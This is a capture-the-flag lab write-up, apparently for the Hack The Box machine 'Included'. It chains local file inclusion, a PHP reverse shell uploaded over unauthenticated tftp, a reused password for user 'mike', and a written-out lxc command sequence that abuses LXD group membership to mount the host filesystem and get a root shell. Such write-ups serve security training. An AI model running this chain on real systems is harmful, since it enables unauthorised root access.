 ![[Pasted image 20210426081232.png]]

Starting with a basic map scan

`nmap -sC -sV -p- 10.10.10.55`

![[Pasted image 20210426081411.png]]

![[Pasted image 20210426081455.png]]

![[Pasted image 20210426082231.png]]

This could lead to LFI (Local File Inclusion)

![[Pasted image 20210426082336.png]]

Here we can see that we get the contents of the file /etc/passwd

![[Pasted image 20210426082439.png]]

In the file we find that there is a user named mike

![[Pasted image 20210426083109.png]]

Here we see that there is a service tftp with nologin , which means it does not require password for logging in 

![[Pasted image 20210426083228.png]]

Uploading a php reverse shell 

![[Pasted image 20210426083709.png]]

Accessing the reverse shell we uploaded by using tftp, through LFI vulnerability 

![[Pasted image 20210426083652.png]]

We get the shell of the user www-data

![[Pasted image 20210426083803.png]]

By using `python3 -c 'import pty; pty.spawn("/bin/bash")'` we stabalize the reverse shell 

By using the password from the previous box for the mike user 

username : `mike`

password : `Sheffield19`

we get  the user mike and the user.txt flag 

![[Pasted image 20210426084721.png]]

![[Pasted image 20210426084954.png]]

Here we see that we have the user mike as the member of the lxd group 

```
A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. The vulnerability exists even with the LXD snap package.

LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. It often does not attempt to match the privileges of the calling user. There are multiple methods to exploit this.

One of them is to use the LXD API to mount the host’s root filesystem into a container which is going to use in this post. This gives a low-privilege user root access to the host filesystem.

```

For more information about the `lxd privilege escalation` go to the link below

https://www.hackingarticles.in/lxd-privilege-escalation/

https://ethicalhackingguru.com/the-lxd-privilege-escalation-tutorial-how-to-exploit-lxd/

Cloning alpine lxd into my machine

![[Pasted image 20210426090723.png]]

Using ./build-alpine we get the alpine.tar.gz

![[Pasted image 20210426090827.png]]

Which by running a python server we transfer to the included machine 

![[Pasted image 20210426090709.png]]

By using  `lxc image import ./alpine.tar.gz --alias included`

![[Pasted image 20210426091127.png]]

`lxc init included exploit -c security.privileged=true`

`lxc config device add exploit container disk source=/ path=/mnt recursive=true`

`lxc start explot`

`lxc exec exploit /bin/sh`

We get the root shell 

Going to the /mnt we see that we get the root file system of the included box ,
Now we can go to the root folder and read the contents of the root.txt file

![[Pasted image 20210426091735.png]]

We found a login.sql file in the root folder 

![[Pasted image 20210426091959.png]]

